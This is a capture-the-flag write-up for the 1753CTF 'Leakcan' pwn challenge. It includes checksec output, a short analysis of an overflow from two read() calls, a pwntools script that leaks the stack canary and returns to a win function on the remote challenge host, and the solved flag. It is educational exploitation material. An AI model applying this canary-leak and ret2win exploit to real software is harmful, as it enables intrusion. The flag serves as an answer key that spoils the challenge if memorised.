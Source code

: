 https://ctftime.org/event/2639

# Leakcan (pwn)

The government has declared a mandatory population census. Every citizen must provide their name and city of residence. Officially, it says just a formality, but whispers in the underground say the data will be used to tighten the regimes grip. Will you comply... or steal the secret file and hand it over to the democratic opposition?

nc leakcan-25b8ac0dd7fd.tcp.1753ctf.com 8435

## Analysis

```bash
$ pwn checksec ./leakcan_chall
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`main` @ `0x4017b5`:

- Calls `read(0, local_68, 0x78)` twice
    - This lets us leak the canary by sending 0x59 bytes and reading the next 7 bytes
        - Note that if we `sendlineafter` with 0x58 `b"A"`'s and this will also send a new line totaling 0x59 bytes
            - This is important because it stomps the first byte of the canary which is also zero
    - This lets us control the return address on the stack if we know the canary
        - Since there is no PIE we can just return to `your_goal` which prints the flag

## Solution

1) Leak the canary
2) ret2win

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./leakcan_chall", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("leakcan-25b8ac0dd7fd.tcp.1753ctf.com", 8435)

p.sendlineafter(b"What's your name", b"A" * 0x58)
p.readline()
p.readline()
canary = u64(b"\x00" + p.recv(7))

payload = b""
payload += b"A" * 0x58
payload += p64(canary) + p64(0)
payload += p64(elf.sym["your_goal"])
p.sendline(payload)

p.readuntil(b"1753c{")
print("1753c{" + p.readuntil(b"}").decode()) # 1753c{c4n4ry_1f_th3r35_4_m3m_l34k}
```

## Flag
`1753c{c4n4ry_1f_th3r35_4_m3m_l34k}`

smiley 2025/04/12
